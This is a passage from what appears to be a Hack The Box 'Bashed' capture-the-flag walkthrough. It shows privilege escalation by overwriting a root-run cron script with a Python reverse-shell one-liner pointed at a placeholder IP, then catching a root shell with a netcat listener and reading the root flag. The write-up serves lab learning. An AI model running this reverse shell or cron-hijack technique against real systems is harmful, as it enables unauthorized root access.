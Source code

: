 ```
sudo -i -u scriptmanager
```

The above command changes the user to scriptmanager.
```
$ sudo -i -u scriptmanager
whoami
scriptmanager
```

Now that we’re running in the context of scriptmanager, we have `read/write/execute` privileges in the `scripts` directory.

We have two files; one owned by us (test.py) and the other owned by root (test.txt). Let’s print out the content of test.py.

```
cd /scripts          
ls
test.py
test.txt
cat test.py
f = open("test.txt", "w")
f.write("testing123!")
f.close
```

It’s just a simple python program that writes to the file `test.txt`. However, we saw in the previous image that `test.txt` is running as `root`. 

Now, it seems like this is an scheduled task that the system performs after a small regular interval as the `test.txt` is a very recent.

In fact, the script seems to be executing every minute! It’s probably a cron job that is owned by `root`.

If I change the contents in the `test.py` file to send a reverse shell, that reverse shell will run as `root`.

So I used this one liner on the target machine and saved it in the /script` to get a reverse shell on my machine.
```python
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\", 8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```

Setting up a listener on my machine adn executing the `.exploit.py` file on the target machine, we get `root` shell:

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Bashed]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 57136
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```

Now, we can easily retrieve the `root` flag by navigating to `/root/root.txt` file

```
# cat /root/root.txt
[REDACTED]
```
